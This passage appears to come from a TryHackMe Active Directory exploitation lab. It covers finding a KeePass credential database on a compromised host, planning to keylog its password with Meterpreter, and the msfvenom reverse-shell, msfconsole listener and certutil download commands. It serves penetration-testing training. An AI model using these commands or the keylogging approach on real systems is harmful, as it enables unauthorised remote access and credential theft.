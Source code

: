 * Credential Management - How users store their credentials. In AD, this is quite important since users may have multiple sets of credentials and remembering all of them can be a hassle.
* Keylogging - Often, during exploitation, we need to understand how normal users interact with a system. Together with screengrabs, Keylogging can be a useful tool to gain this understanding from an attacker's perspective.

### Hunting for Credentials

Now that we have compromised THMSERVER1, we should probably look around to see if there is any useful information. Have a look at the user directories and see if there is some useful information in any of them.

Your enumeration efforts should lead you to a .kdbx file. A quick Google should confirm our suspicion that this file is indeed very valuable! We can use Meterpreter's download command to recover this file.

This file seems to be a credential database. The issue, however, is that the database is encrypted with a password. We could attempt to crack the password, but anyone who uses a credential database usually has the savvy to make sure the initial password is secure. We may have more success seeing how the user interacts with this database.

### SYSTEM is Sometimes Too Privileged

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell. If you need a recap on using Meterpreter and Metasploit, [here is a module on its use](https://tryhackme.com/module/metasploit). However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

You can then also use the following to create the associated listener in the msfconsole:

```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"
```

You can host your meterpreter shell using a Python webserver and then copy it using something like this:

```
certutil.exe -urlcache -split -f http:///shell.ps1
```

Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running processes on this machine:
